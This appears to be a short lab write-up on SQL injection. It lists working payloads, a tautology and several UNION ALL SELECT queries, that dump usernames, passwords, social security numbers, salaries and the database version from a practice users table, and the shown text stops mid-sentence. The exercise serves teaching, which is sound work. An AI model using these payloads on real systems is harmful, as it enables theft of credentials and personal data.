


# SQLi

Find all information about the following properties in the SQL server:

1. ID, firstname, lastname
2. username, password
3. svnr, protected, license, salery, hobbies
4. database version, current user, server version

## ID, firstname, lastname

userid: `1 OR 1=1; --`

## username, password

userid: `0 UNION ALL SELECT id, username, password FROM users; --`

Note that we adjusted the first query so that it doesn't return rows for readability. For example, userid: `0 UNION ...` or userid: `1 AND 1=0 UNION ...`.

## svnr, protected, license, salery, hobbies

We will need to execute three queries because the number of columns must match the first part of each query.

userid: `0 UNION ALL SELECT id, svnr, protected FROM users; --`

userid: `0 UNION ALL SELECT id, license, salery FROM users; --`

userid: `0 UNION ALL SELECT id, salery, hobbies FROM users; --`

## database version, current user, server version

userid: `1 AND 1=0 UNION ALL SELECT version(), current_user, database(); --`

Based on the first column, we can infer that the database is MySQL based on the semantic versioning. A simple Google search can verify our hypothesis:

